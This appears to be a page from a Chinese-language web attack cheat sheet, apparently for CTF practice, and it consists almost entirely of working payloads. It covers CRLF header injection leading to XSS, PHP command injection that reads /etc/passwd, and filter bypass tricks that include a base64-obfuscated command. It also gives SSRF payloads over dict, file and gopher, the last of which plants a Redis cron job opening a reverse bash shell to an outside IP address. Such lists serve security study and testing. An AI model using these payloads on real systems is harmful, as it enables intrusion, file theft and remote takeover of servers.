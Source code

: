 ```
Set-cookie: PHPSESSION=admin
```



```
index.php?url=http://example.com/%0aX-XSS-Protection:
%200%0a%0d%0a%0d<img%20src=1%20onerror=alert(/xss/)>

GET /index.php HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com/
X-XSS-Protection: 0
<img src=1 onerror=alert(/xss/)>
```

## 命令注入

```php
<?php
if (isset($_GET['ip'])) {
	$cmd = 'ping -c1 '.$_GET['ip'];
	system($cmd);
}

//index.php?ip=;cat /etc/passwd
```

绕过过滤

```shell
cat<>flag.txt
cat<flag.txt
cat${IFS}flag.txt

a=c;b=at;c=flag.txt;$a$b $c
`echo Y2F0IGZsYWcudHh0Cg==|base64 -d`
ca""t flag.txt
c""at fl""ag.txt
c\at fl\ag.txt
```

## SSRF

1. dict protocol (操作Redis)
   curl -vvv 'dict://127.0.0.1:6379/info'  

2.   file protocol (任意⽂件读取)  

   curl -vvv 'file:///etc/passwd'  

3.   gopher protocol (⼀键反弹Bash)  

   curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%%0d%0a......**......'  
